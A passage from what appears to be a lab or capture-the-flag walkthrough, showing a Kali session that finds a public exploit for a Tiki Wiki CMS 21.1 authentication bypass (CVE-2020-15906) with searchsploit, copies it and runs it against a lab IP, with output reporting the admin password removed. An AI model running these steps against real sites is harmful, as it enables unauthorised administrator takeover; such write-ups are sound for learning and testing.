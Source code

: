 There's an exploit available for this tikiwiki version.

Authentication Bypass vulnerability, allows remote unauthenticated attackers to bypass the login page which results in a full compromise of Tiki WikiCMS. An Attacker is able to bruteforce the Admin account until it is locked. After that an emptyPassword can be used to authenticate as admin to get access, more information about this vulnerability you can find it [here](https://github.com/S1lkys/CVE-2020-15906).

```console
root@kali:~$ searchsploit tiki wiki 21.1
------------------------------------------------------------ ------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ------------------------
Tiki Wiki CMS Groupware 21.1 - Authentication Bypass        | php/webapps/48927.py
------------------------------------------------------------ ------------------------
```

## Exploitation

I performed a copy of this exploit to my current directory.

```console
root@kali:~$ searchsploit -m php/webapps/48927.py
root@kali:~$ cp 48927.py exp.py
```

I ran the script adding as parameter the IP address of the victim machine.

```console
root@kali:~$ python3 exp.py 192.168.179.162
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password
```
